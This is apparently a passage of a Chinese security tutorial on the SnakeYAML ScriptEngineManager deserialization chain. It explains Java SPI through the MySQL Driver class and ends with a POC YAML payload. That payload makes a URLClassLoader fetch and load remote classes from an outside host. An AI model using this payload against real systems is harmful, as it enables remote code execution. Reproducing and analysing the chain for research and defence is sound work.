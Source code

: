 ### ScriptEngineManager链

**什么是SPI机制**  
SPI(Service Provider Interface), JDK内置的一种服务提供发现机制。它的利用方式是通过在ClassPath路径下的`META-INF/services`文件夹下查找文件，自动加载文件中所定义的类  
例如以mysql-connector包为例：  
[![](assets/1701612157-668ffa56b3c938fcfafec585bf009359.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230813204502-3879ac82-39d7-1.png)  
而Dirver类中的内容是：

```plain
package com.mysql.cj.jdbc;

import java.sql.DriverManager;
import java.sql.SQLException;

public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }

    static {
        try {
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

这个Driver类实现了java.sql.Driver接口，这段代码主要是将当前类的实例注册为MySQL数据库的驱动程序，实现了一个MySQL数据库的Java驱动程序，这个方法会在JVM启动时执行，从而确保了该驱动程序在应用程序启动时已经被注册。当应用程序需要连接MySQL数据库时，可以通过DriverManager类的getConnection()方法获取com.mysql.cj.jdbc.Driver类的实例，进而建立MySQL数据库连接  
**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
POC：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tlk0u6qn.eyes.sh\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
